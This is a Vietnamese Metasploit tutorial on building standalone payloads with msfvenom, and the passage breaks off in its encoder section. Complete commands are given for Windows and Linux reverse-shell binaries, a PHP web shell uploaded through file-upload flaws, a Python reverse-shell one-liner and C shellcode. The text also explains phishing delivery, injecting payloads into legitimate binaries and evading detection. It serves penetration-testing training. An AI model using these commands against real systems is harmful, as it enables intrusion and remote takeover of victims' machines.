# **Metasploit: Payload Generation**
## **1. Introduction**
Trong các bài học trước, payload thường được gửi đi thông qua một module khai thác (exploit) chạy trực tiếp từ `msfconsole`. Framework sẽ tự động lo việc đóng gói payload, gửi đến mục tiêu và thiết lập phiên kết nối (session).
Tuy nhiên, có những trường hợp quy trình tự động này không thể áp dụng, ví dụ:
*   Bạn tìm thấy lỗ hổng tải tệp lên (file upload) trên web nhưng không có sẵn module khai thác trong Metasploit.
*   Bạn có thông tin đăng nhập SSH và cần truyền tệp sang máy chủ Linux để lấy phiên Meterpreter thay vì shell cơ bản.
*   Bạn cần nhúng payload vào một file thực thi hợp lệ của Windows để gửi qua email lừa đảo (phishing).

Trong các kịch bản này, bạn cần một **tệp payload độc lập (standalone payload file)** được tạo ra ở bên ngoài module khai thác và bạn phải tự tìm cách chuyển nó đến mục tiêu. Đó chính là nhiệm vụ của **Msfvenom**.

> **💡 Ví dụ thực tế:** 
> Hãy tưởng tượng `msfconsole` giống như một dịch vụ giao hàng trọn gói: bạn chỉ cần chọn món đồ, họ sẽ tự động đóng gói, tự đem đến tận nhà nạn nhân và báo kết quả về cho bạn. 
> Trong khi đó, **Msfvenom** giống như một "xưởng chế tạo". Nó chỉ giúp bạn tạo ra món đồ (payload) theo đúng ý muốn. Còn việc đem món đồ đó bỏ vào nhà nạn nhân bằng cách nào (gửi email, cắm USB, hay tải lên web) thì bạn phải tự làm bằng tay (manual delivery).

### **1.1. What Is Msfvenom?**

**Msfvenom** là một công cụ dòng lệnh (command-line) dùng để tạo ra các payload với đa dạng định dạng cho hầu hết mọi nền tảng mục tiêu. Nó là một phần của Metasploit Framework nhưng hoạt động hoàn toàn độc lập với `msfconsole`. Bạn chạy nó trực tiếp từ terminal (bash shell), chứ không phải trong dấu nhắc lệnh `msf6 >`.

Với công cụ này, bạn có thể:
*   Tạo các tệp thực thi độc lập (`.exe`, `.elf`, `.apk`, `.war`) để trả về phiên Meterpreter hoặc command shell khi chạy trên máy nạn nhân.
*   Tạo ra shellcode thô (raw) bằng các ngôn ngữ như C, Python, PowerShell, hoặc C# để nhúng vào các công cụ do bạn tự viết.
*   Tạo web shells (PHP, ASP, JSP) để khai thác các lỗ hổng trên ứng dụng web.
*   Mã hóa (Encode) payload để loại bỏ các ký tự xấu (bad characters) hoặc thay đổi cấu trúc byte nhằm né tránh phát hiện.
*   Tiêm (Inject) payload vào các tệp thực thi (binary) hợp pháp có sẵn để làm chúng trông bớt khả nghi hơn.

### **1.2. History: Two Tools Became One**

Trong các phiên bản cũ của Metasploit, việc tạo payload được chia cho hai công cụ riêng biệt:
*   `msfpayload`: Dùng để tạo ra output của raw payload.
*   `msfencode`: Dùng để mã hóa payload nhằm loại bỏ ký tự xấu hoặc né tránh các phần mềm diệt virus cơ bản.

Vào năm 2015, cả hai công cụ này đã được gộp chung thành một tiện ích duy nhất là `msfvenom`. Nếu bạn đọc các tài liệu cũ nhắc đến hai lệnh trên, hãy nhớ rằng chúng không còn tồn tại nữa.

### **1.3. Where Msfvenom Fits in the Workflow**

Quy trình kiểm thử xâm nhập (pentest) với Msfvenom sẽ có thêm một bước "phân phối thủ công" mà bình thường `msfconsole` sẽ tự động làm. Quy trình gồm 5 bước:

1.  **Generate (Tạo):** Tạo payload bằng `msfvenom` (chỉ định nền tảng, loại payload, định dạng và thông tin kết nối).
2.  **Deliver (Phân phối):** Đưa payload đến mục tiêu (thông qua file upload, SSH, phishing, cắm USB, v.v.).
3.  **Set up a handler (Thiết lập trình lắng nghe):** Cấu hình trên `msfconsole` bằng module `exploit/multi/handler` để bắt kết nối dội về.
4.  **Execute (Thực thi):** Chạy payload trên máy mục tiêu (hoặc chờ nạn nhân vô tình nhấp vào để chạy).
5.  **Interact (Tương tác):** Tương tác với phiên kết nối thu được.

*(Lưu ý: Các bước từ 3 đến 5 giống hệt như khi bạn chạy tự động từ `msfconsole`. Điểm khác biệt duy nhất là bạn phải tự chịu trách nhiệm thực hiện bước 1 và 2).*

### **1.4. Prerequisites & 1.5. Learning Objectives**

Bài học này yêu cầu bạn đã nắm vững kiến thức từ 3 bài trước (The Basics, Scanning and Exploitation, Post-Exploitation). 
Sau khi hoàn thành, bạn sẽ có khả năng:
*   Sử dụng `msfvenom` để tạo payload cho Windows, Linux, và Web.
*   Phân biệt và lựa chọn giữa payload *staged* và *stageless* tùy theo yêu cầu của đợt tấn công.
*   Chọn định dạng đầu ra (output format) phù hợp với phương pháp phân phối.
*   Hiểu rõ việc mã hóa (encoding) làm được gì và không làm được gì trong việc né tránh bị phát hiện (evasion).
*   Tiêm payload vào các tệp nhị phân có sẵn.
*   Thiết lập `multi/handler` để hứng các kết nối đảo (reverse connection) từ payload độc lập.
*   Hoàn thành trọn vẹn quy trình: *Generate → Deliver → Catch → Post-exploit*

## **2. Basic Syntax and Listing Options**
Mọi lệnh `msfvenom` đều tuân theo một cấu trúc chung. Khi bạn đã nắm vững các cờ (flags) cốt lõi, bạn có thể tạo ra bất kỳ payload nào mà framework này hỗ trợ.
Cấu trúc tối thiểu của một lệnh `msfvenom` cần 3 yếu tố:
1.  **Payload (`-p`)**: Loại mã độc muốn tạo.
2.  **Format (`-f`)**: Định dạng đầu ra (ví dụ: file `exe`, file `apk`).
3.  **Connection Parameters (`LHOST`, `LPORT`)**: Thông số kết nối (địa chỉ IP và cổng của máy tấn công để payload gọi về).

Cú pháp tổng quát:
```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <output_file>
```

**Ví dụ thực tế tạo payload cho Windows:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f exe -o shell.exe
```

**Giải thích chi tiết từng cờ (flag):**
*   `-p windows/x64/meterpreter/reverse_tcp`: Chỉ định payload cần tạo. Cấu trúc đặt tên giống với bài 1: `nền_tảng/kiến_trúc/loại_payload/phương_thức_kết_nối`.
*   `LHOST=10.10.14.12`: Địa chỉ IP của máy tấn công (Attacker). Mục tiêu sẽ kết nối ngược (connect back) về địa chỉ này khi payload thực thi.
*   `LPORT=4444`: Cổng (port) trên máy tấn công đang mở để lắng nghe và nhận kết nối.
*   `-f exe`: Định dạng đầu ra (output format). Ở đây là một tệp thực thi (executable) của Windows.
*   `-o shell.exe`: Tên tệp đầu ra (output file). Nếu không có cờ `-o`, `msfvenom` sẽ in trực tiếp mã raw (mã thô) ra màn hình (standard output), điều này hữu ích khi bạn muốn dùng toán tử pipe (`|`) để đẩy mã sang công cụ khác, nhưng không dùng để lưu thành file nhị phân.


> **💡 Ví dụ đời sống:** 
> Việc tạo payload giống như bạn đặt một chiếc bánh kem. 
> `-p` là nhân bánh (Meterpreter reverse_tcp). 
> `LHOST` và `LPORT` là địa chỉ nhà bạn để thợ bánh (payload) mang bánh tới giao.
> `-f` là hình dáng chiếc bánh (hình tròn `.exe` hay hình vuông `.apk`).
> `-o` là cái hộp để đựng chiếc bánh đó (`shell.exe`).

### **2.1. The Complete Flag Reference**

Bảng dưới đây liệt kê các cờ (flags) quan trọng nhất mà bạn sẽ thường xuyên sử dụng:
*   `-p` : Chọn payload. (VD: `-p linux/x64/meterpreter/reverse_tcp`)
*   `-f` : Chọn định dạng đầu ra (Format). (VD: `-f elf`, `-f exe`, `-f raw`, `-f python`)
*   `-o` : Ghi đầu ra vào một tệp cụ thể (Output file). (VD: `-o payload.exe`)
*   `-e` : Chọn bộ mã hóa (Encoder) để ẩn giấu hoặc loại bỏ ký tự xấu. (VD: `-e x86/shikata_ga_nai`)
*   `-i` : Số lần lặp (iterations) của quá trình mã hóa. (VD: `-i 5`)
*   `-b` : Khai báo các ký tự xấu (bad characters) cần tránh. (VD: `-b '\x00\x0a\x0d'`)
*   `-x` : Tệp nhị phân mẫu (Template binary) để tiêm payload vào. (VD: `-x putty.exe`)
*   `-k` : Giữ nguyên hoạt động (behavior) gốc của tệp mẫu khi chạy (dùng kèm với `-x`).
*   `-a` : Ghi đè kiến trúc (Architecture). (VD: `-a x64`)
*   `--platform` : Ghi đè nền tảng hệ điều hành. (VD: `--platform windows`)
*   `-n` : Thêm vào đầu payload một NOP sled có độ dài N byte. (VD: `-n 16`)

**Lưu ý quan trọng:** `LHOST` và `LPORT` **KHÔNG PHẢI** là cờ của `msfvenom` (không có dấu gạch ngang `-` ở đầu). Chúng là **payload options** (tùy chọn của payload) và được truyền vào dưới dạng cặp `KEY=VALUE` ngay sau cờ `-p`. Mỗi payload có thể yêu cầu các tùy chọn khác nhau.


### **2.2. Listing What Is Available (Cờ -l)**
Chữ cái **`l`** (chữ "L" viết thường, viết tắt của "list") là cờ khám phá (discovery tool) của `msfvenom`. Nó có thể liệt kê mọi payload, bộ mã hóa (encoder), định dạng (format), nền tảng (platform) và kiến trúc (architecture) mà công cụ này hỗ trợ.

**Cách liệt kê toàn bộ payloads:**
```bash
msfvenom -l payloads
```

Vì danh sách này rất dài (khoảng 1700 payloads), bạn nên kết hợp với lệnh `grep` của Linux để lọc ra những thứ cần tìm:
```bash
msfvenom -l payloads | grep linux | grep meterpreter
```


---

**Liệt kê định dạng đầu ra (Formats):**
```bash
msfvenom -l formats
```


Định dạng đầu ra được chia làm hai loại chính:
1.  **Executable Formats (Định dạng thực thi):** Tạo ra các tệp nhị phân độc lập (standalone binary) như `.exe`, `.elf`, `.msi`, `.macho`. Nạn nhân nhấn đúp chuột là chạy.
2.  **Transform Formats (Định dạng chuyển đổi):** Tạo ra các đoạn mã nguồn hoặc dữ liệu thô (raw data) như `c`, `python`, `powershell`, `base64`, `hex`. Định dạng này dùng để copy-paste mã shellcode nhúng vào một công cụ, hoặc một file mã nguồn khác do bạn tự thiết kế.

---

**Liệt kê Encoders (Bộ mã hóa):**
```bash
msfvenom -l encoders
```


**Liệt kê Platforms và Architectures:**
```bash
msfvenom -l platforms
msfvenom -l archs
```
 

### **2.3. Checking Payload Options (--list-options)**

Nếu bạn không chắc một payload (ví dụ: `windows/x64/meterpreter/reverse_tcp`) yêu cầu những tham số nào (như LHOST, LPORT), bạn có thể dùng cờ `--list-options` để kiểm tra. Chức năng này tương tự như lệnh `show options` trong `msfconsole`.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --list-options
```
Lệnh này sẽ trả về danh sách các tùy chọn (Basic options) và yêu cầu `Required = yes` hay `no` để bạn biết cần điền những thông tin gì vào cấu trúc `KEY=VALUE`

## **3. Staged vs. Stageless Payloads**
Như đã học ở Bài 1, ta có thể phân biệt hai loại payload này thông qua dấu phân cách trong tên gọi: dấu gạch chéo `/` cho staged (ví dụ: `meterpreter/reverse_tcp`) và dấu gạch dưới `_` cho stageless (ví dụ: `meterpreter_reverse_tcp`).

Bài học này đi sâu vào cơ chế hoạt động, sự đánh đổi (trade-offs) và thời điểm nên chọn loại nào khi tạo bằng `msfvenom`.

### **3.1. Recap: How Each Type Works**

*   **Stageless (inline) payloads:** Hoạt động độc lập và trọn gói. Toàn bộ mã độc (kể cả Meterpreter agent) được nhét gọn vào một file duy nhất. Khi chạy trên máy nạn nhân, nó kết nối thẳng về máy bạn và mở phiên làm việc chỉ trong một bước.
*   **Staged payloads:** Hoạt động qua hai bước. Đầu tiên, một đoạn mã siêu nhỏ gọn gọi là *stager* được chạy trên máy nạn nhân. Nhiệm vụ duy nhất của nó là "gọi điện" về máy bạn. Khi kết nối thành công, máy bạn mới bắt đầu "gửi hàng" - tức là truyền khối payload lớn hơn (gọi là *stage*, chứa toàn bộ Meterpreter) qua đường truyền đó. Nạn nhân tải xong sẽ nạp vào RAM và chạy.

> **💡 Ví dụ đời sống:** 
> **Stageless** giống như bạn gửi một đội thợ sửa nhà (đầy đủ đồ nghề) đến thẳng nhà nạn nhân. Mở cửa là họ làm việc luôn. Rất cồng kềnh nhưng chắc ăn.
> **Staged** giống như bạn chỉ gửi một "người do thám" (stager) nhỏ bé lọt vào nhà. Người này mở hé cửa rồi gọi điện cho đội thợ chính (stage) ở ngoài lẻn vào sau. Gọn nhẹ nhưng nếu lúc gọi điện mà rớt mạng thì hỏng việc.

### **3.2. The Trade-Offs (Sự đánh đổi)**

*   **File size (Kích thước tệp):** Stageless lớn hơn rất nhiều vì chứa toàn bộ payload. Staged siêu nhỏ vì chỉ chứa đoạn mã gọi về.
*   **Reliability (Độ tin cậy):** Stageless đáng tin cậy hơn, vì không phải lo quá trình tải phần *stage* thứ hai bị lỗi mạng. Staged phụ thuộc vào đường truyền mạng ổn định trong lúc tải *stage*.
*   **Network dependency (Độ phụ thuộc mạng):** Stageless chỉ cần tạo kết nối một lần là xong. Staged yêu cầu mạng phải duy trì liên tục để hoàn tất tải *stage*.
*   **Detection surface (Bề mặt bị phát hiện):** Stageless để lại nguyên một cục payload lớn trên ổ cứng, dễ bị Antivirus quét chữ ký. Staged có file ban đầu nhỏ gọn khó phát hiện hơn, nhưng quá trình nó kéo cục data lớn (stage) qua mạng có thể bị tóm.
*   **Firewall behavior (Phản ứng của tường lửa):** Stageless chỉ tạo một kết nối đẩy dữ liệu ra ngoài đơn giản. Staged tạo kết nối, sau đó lại kéo một lượng lớn dữ liệu vào trong; hệ thống phát hiện xâm nhập (IDS) rất hay chú ý hành vi bất thường này.
*   **Use with msfconsole (Dùng với msfconsole):** Staged là lựa chọn mặc định cho hầu hết các module khai thác tự động.
*   **Use with msfvenom (Dùng với msfvenom):** Stageless là sự lựa chọn phổ biến nhất khi tạo tệp payload độc lập.

### **3.3. When to Choose Each (Khi nào chọn loại nào)**

**Chọn Stageless khi:**
*   Bạn dùng `msfvenom` tạo file để tự tay gửi đi (cắm USB, phishing, upload). File phải tự vận hành được trọn vẹn vì bạn không kiểm soát được môi trường mạng của nạn nhân lúc họ bấm chạy.
*   Mục tiêu có mạng chập chờn, không ổn định. Stageless chỉ cần kết nối được một khoảnh khắc là sống luôn.
*   Bạn thích sự đơn giản. Nó chỉ có hai trạng thái: chạy được hoặc không, không cần phải phối hợp đồng bộ giữa stager và handler.


**Chọn Staged khi:**
*   Bạn đang dùng các module khai thác tự động trong `msfconsole` (nó sẽ tự lo việc staging).
*   Lỗ hổng bạn khai thác (ví dụ: Buffer Overflow) có không gian chứa mã độc cực kỳ chật hẹp, không thể nhét vừa cả cục Meterpreter. Bạn phải dùng stager siêu nhỏ gọn để lọt qua lỗ hổng đó trước.
*   Đường truyền phát tán có giới hạn dung lượng (ví dụ: tấn công SQL Injection).


*Tóm lại trong thực tế: Đa số payload tự tay tạo bằng `msfvenom` đều dùng **Stageless** vì tính trọn gói và ổn định. Đa số tấn công tự động bằng `msfconsole` đều dùng **Staged**.*

### **3.4. Generating Both with Msfvenom & Handler Behavior**

Cùng một cấu hình (LHOST, LPORT, format exe), nếu ta thử tạo cả hai loại payload:
*   **Staged lệnh:** `-p windows/x64/meterpreter/reverse_tcp`
*   **Stageless lệnh:** `-p windows/x64/meterpreter_reverse_tcp`

Kết quả kích thước chênh lệch cực lớn: 
*   Bản **Staged** (chỉ có stager) có kích thước payload thô là 510 bytes, khi đóng gói thành `.exe` nặng khoảng **7 KB**.
*   Bản **Stageless** (đầy đủ agent) có kích thước payload thô là hơn 200,000 bytes, đóng gói thành `.exe` nặng khoảng **245 KB**.

**Sự khác biệt khi thiết lập Handler (trình lắng nghe):**
Khi dùng `exploit/multi/handler` để bắt kết nối:
*   Với **staged**, máy bạn (handler) có nhiệm vụ *phục vụ* phần stage cho nạn nhân kéo về. Nếu lúc nạn nhân chạy file mà máy bạn chưa bật handler, hoặc cấu hình sai loại payload, kết nối sẽ chết im lìm (thất bại).
*   Với **stageless**, máy bạn chỉ việc há miệng ra và nhận một kết nối Meterpreter đã hoàn chỉnh. Vì không phải lo việc phục vụ stage, loại payload này dễ dãi hơn về mặt thời gian bắt nhịp

## **4. Generating Payloads and Output Formats**
Sau khi đã hiểu về cú pháp và sự khác biệt giữa staged/stageless, bước tiếp theo là thực hành tạo các payload phổ biến. Việc hiểu rõ hai danh mục định dạng đầu ra (Output Formats) là chìa khóa để sử dụng cờ `-f` một cách chính xác.

### **4.1. Executable Formats vs. Transform Formats**

*   **Executable formats (Định dạng thực thi):** Tạo ra một tệp nhị phân độc lập mà hệ điều hành của mục tiêu có thể chạy trực tiếp. Ví dụ: `exe` (Windows), `elf` (Linux), `macho` (macOS), `msi` (Windows Installer), `apk` (Android), `war` (Java web).
*   **Transform formats (Định dạng chuyển đổi):** Tạo ra mã nguồn hoặc dữ liệu thô để bạn nhúng vào một công cụ, kịch bản (script) hoặc mã khai thác (exploit) khác. Ví dụ: `raw` (byte thô), `c` (mảng byte C), `csharp` (mảng byte C#), `python` (chuỗi Python), `powershell`, `base64`.

> **Quy tắc ngón tay cái:** Nếu bạn cần một *tệp* để nạn nhân nhấp vào chạy, hãy dùng định dạng *executable*. Nếu bạn cần *dữ liệu* để nhét vào một đoạn code khác do bạn viết, hãy dùng định dạng *transform*.

### **4.2. Common Payload Recipes (Các công thức tạo Payload phổ biến)**

Dưới đây là 5 "công thức" tạo payload bạn sẽ dùng nhiều nhất trong thực tế:

**1. Windows Reverse Shell (EXE)**
*   **Lệnh:** 
    ```bash
    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f exe -o shell.exe
    ```
*   **Khi nào dùng:** Khi bạn có cách đưa một file thực thi vào máy tính Windows (qua USB, phishing, SMB share) và nạn nhân có thể vô tình chạy nó. Sử dụng bản stageless (`meterpreter_reverse_tcp`) để đảm bảo độ tin cậy.


**2. Linux Reverse Shell (ELF)**
*   **Lệnh:**
    ```bash
    msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f elf -o shell.elf
    ```
    

*   **Khi nào dùng:** Khi bạn có quyền chuyển file vào hệ thống Linux (qua SSH, SCP, hoặc lỗ hổng upload file). *Lưu ý:* Sau khi chuyển lên server Linux, bạn phải cấp quyền thực thi bằng lệnh `chmod +x shell.elf` trước khi chạy nó.

**3. PHP Web Shell**
*   **Lệnh:**
    ```bash
    msfvenom -p php/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f raw -o shell.php
    ```
    

*   **Khi nào dùng:** Khi bạn tìm thấy lỗ hổng cho phép tải tệp lên một ứng dụng web chạy PHP. Bạn tải tệp `shell.php` lên, sau đó dùng trình duyệt truy cập vào đường dẫn chứa tệp đó (ví dụ: `http://target.com/uploads/shell.php`) để kích hoạt payload.
*   **Lưu ý quan trọng:** Đôi khi `msfvenom` đặt thẻ mở `<?php` trong dấu chú thích (`/*<?php */`). Hãy mở file ra kiểm tra và xóa bỏ các dấu chú thích nếu cần, nếu không server PHP sẽ không chạy đoạn mã đó.

**4. Python One-Liner (Chạy một dòng lệnh Python)**
*   **Lệnh:**
    ```bash
    msfvenom -p cmd/unix/reverse_python LHOST=CONNECTION_IP LPORT=4444 -f raw
    ```
    

*   **Khi nào dùng:** Khi mục tiêu có cài đặt Python và bạn có thể chạy lệnh từ xa (ví dụ: qua lỗ hổng Command Injection, hoặc một web shell cơ bản). Payload này trả về thẳng màn hình terminal của bạn một chuỗi lệnh dài. Bạn chỉ việc copy chuỗi lệnh đó và paste thẳng vào terminal của nạn nhân. Không cần lưu file nào xuống ổ cứng (Fileless).

**5. Raw Shellcode (Định dạng C)**
*   **Lệnh:**
    ```bash
    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=CONNECTION_IP LPORT=4444 -f c
    ```
    

*   **Khi nào dùng:** Khi bạn đang tự viết một mã khai thác (Custom Exploit) bằng C/C++, hoặc cần mảng byte thô để nhúng vào lỗ hổng tràn bộ đệm (Buffer Overflow). Kết quả trả về là một mảng byte (`unsigned char buf[] = "\xfc\x48..."`) để bạn copy trực tiếp vào mã nguồn của mình.

### **4.3. Quick Reference: Common Format Choices**

Bảng tham chiếu nhanh giúp chọn định dạng (`-f`) tùy theo kịch bản:
*   File thực thi cho Windows (File drop): `-f exe`
*   File thực thi cho Linux (SSH transfer): `-f elf`
*   Web shell PHP để upload: `-f raw`
*   Lệnh Python qua Command Injection: `-f raw`
*   Shellcode nhúng vào mã nguồn C: `-f c`
*   Lệnh PowerShell chạy trên Windows: `-f powershell`
*   Ứng dụng Web Java (Tomcat, Jenkins): `-f war`
*   Trình cài đặt Windows Installer: `-f msi`

## **5. Encoders and Evasion Basics**

Trong giới kiểm thử xâm nhập (pentest), có một lầm tưởng rất phổ biến ở những người mới bắt đầu: họ tin rằng việc dùng `msfvenom` mã hóa (encode) payload sẽ giúp qua mặt được các phần mềm diệt virus (AV). Bài học này sẽ đính chính trực tiếp: **mã hóa không phải là né tránh (encoding is not evasion)**.

### **5.1. What Encoding Actually Does**

Một bộ mã hóa (encoder) có nhiệm vụ biến đổi chuỗi byte của payload sang một hình thức biểu diễn khác. Bộ mã hóa nổi tiếng nhất trong Metasploit là `x86/shikata_ga_nai` (dùng thuật toán XOR đa hình). 
Nói một cách đơn giản, nó lấy mã độc gốc, mã hóa nó bằng một "chìa khóa" (key) luôn thay đổi, và đính kèm một đoạn mã giải mã nhỏ xíu (gọi là *decoder stub*) vào ngay đầu file. Khi file chạy trên máy nạn nhân, cái *decoder stub* này sẽ chạy trước để giải mã payload trở lại hình dạng gốc trên RAM, sau đó mới kích hoạt mã độc.

Mục đích chính đáng của Encoding thực chất là:
*   **Loại bỏ ký tự xấu (Bad character removal):** Khi khai thác lỗi tràn bộ đệm (Buffer Overflow), một số ký tự như byte rỗng (`\x00`), ngắt dòng (`\x0a`), hoặc dấu Enter (`\x0d`) sẽ làm hỏng đường truyền khai thác. Mã hóa giúp cấu trúc lại mã độc để các ký tự này biến mất.
*   **Tuân thủ định dạng (Format compliance):** Đảm bảo payload chỉ chứa các ký tự cho phép (ví dụ: chỉ toàn ký tự văn bản ASCII có thể đọc được).

> **💡 Ví dụ đời sống:** 
